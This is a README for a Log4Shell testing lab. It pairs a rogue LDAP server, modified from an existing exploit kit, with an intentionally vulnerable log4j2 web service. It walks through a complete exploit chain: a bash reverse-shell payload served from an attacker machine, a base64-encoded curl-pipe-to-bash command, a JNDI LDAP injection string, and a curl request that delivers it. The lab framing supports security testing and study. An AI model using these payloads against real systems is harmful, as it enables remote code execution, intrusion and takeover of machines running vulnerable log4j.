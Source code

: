 ## RogueLDAP

------------

This is a lightweight ```RogueLDAP``` server which is a modified version of the  [JNDIExploit-1](https://github.com/gysf666/JNDIExploit-1). Before running the Rogue LDAP Server, we should build and run the vulnerable ```loggin-log4j2``` application

#### Build with Maven

In order to build and run the ```RogueLDAP``` server we will run the following commands 

```
cd RogueLDAP
mvn clean package
cd target
java -jar RogueLDAP-1.4-SNAPSHOT.jar
```

## logging-log4j2

------------

The ```logging-log4j2``` is a vulnerable dummy web service which only logs a user supplied string value. This application created for testing purposes in order to test the Log4Shell vulnerability using the ```RogueLDAP``` server previously described.  

#### Build and run with Docker

From cli run the following command to build and run the ```logging-log4j2``` application 

```
cd logging-log4j2
mvn clean install
docker build -f Dockerfile -t logging-log4j2-vuln .
docker run -p 8080:8080 logging-log4j2-vuln 
```

#### Build with Maven

```
mvn clean package && java -Dlog4j2.contextSelector=org.apache.logging.log4j.core.async.AsyncLoggerContextSelector -jar logging-log4j2-1.0.jar 
```

## Setting up the Environment

The setup should be as follows 

1. Open a new terminal window and run the ```RogueLDAP``` server at the attacking machine
2. Open a new terminal window and run the vulnerable ```logging-log4j2``` application at the target machine
3. create a folder called shells at a preffered location at the attacking machine

```
mkdir shells 
cd shells 
```

Inside the shells folder create an ```index.html``` file 

```
touch index.html 
```

Inside the ```index.html``` file put the following payload and change the IP address to the one that suits to your environment

``` 
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.1.6/8082 0>&1" &
``` 

4. convert the payload ```$(curl 192.168.1.6:8085|bash)``` in base64 format as seen below (change the IP address with the one that suits to your environment) 

```
JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=
```

5. In order to perform a JNDI LDAP query the following payload will be used (change the IP address with the one that suits to your environment) 

```
${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}
``` 

6. Now open a new terminal window and inside the shells directory run the following command in order to start a python simple HTTP server

```
cd shells 
python3 -m http.server 8085
```

7. Now that the ```logging-log4j2``` application runs, open a new terminal window and run the ```curl``` command line tool in order to send the jndi payload as shown below 
(change the IP address with the one that suits to your environment) 

```
curl -s -X POST http://192.168.1.6:8080/lol -H "Content-type:application/json" -d "{\"vuln\":\"\${jndi:ldap://192.168.1.6:6389/JChjdXJsIDE5Mi4xNjguMS42OjgwODV8YmFzaCk=}\"}"
```
